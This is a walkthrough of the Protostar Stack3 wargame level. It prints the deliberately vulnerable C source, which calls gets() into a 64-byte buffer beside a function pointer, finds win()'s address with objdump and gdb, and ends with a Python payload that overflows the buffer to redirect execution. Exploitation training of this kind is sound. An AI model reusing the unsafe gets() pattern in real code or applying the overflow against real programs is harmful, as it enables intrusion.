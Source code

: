 # Protostar - Stack3
* Getting started
    
    Once the virtual machine has booted, you are able to log in as the “user” account with the password “user” (without the quotes).
    The levels to be exploited can be found in the /opt/protostar/bin directory.
    For debugging the final levels, you can log in as root with password “godmode” (without the quotes)


* Core Files

    README! The /proc/sys/kernel/core_pattern is set to /tmp/core.%s.%e.%p. This means that instead of the general ./core file you get, it will be in a different directory and different file name.


## __Stack3__
* About

  Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

  Hints
    * both gdb and objdump is your friend you determining where the win() function lies in memory.

This level is at /opt/protostar/bin/stack3

* Source Code 
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}

```

  For this problem we have to find the address of win() function and overflow return address with that value.

  Let's find the address of win() function by using **objdump**
```
user@protostar:~$ objdump -d /opt/protostar/bin/stack3 | grep win
08048424 <win>:
```

or by using **gdb**

```
user@protostar:~$ gdb /opt/protostar/bin/stack3
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /opt/protostar/bin/stack3...done.
(gdb) print win
$1 = {void (void)} 0x8048424 <win>
```

  The address is **0x8048424**

  Now we have to know exactly how many bytes the buffer has.

  The buffer has 64 bytes followed by  4 bytes of fp variable, if we overflow the fp variable with the address of win() the program will jump to win()
  

### _Solution_
```
user@protostar:~$ python -c 'print("A"*64 + "\x24\x84\x04\x08")' | /opt/protostar/bin/stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```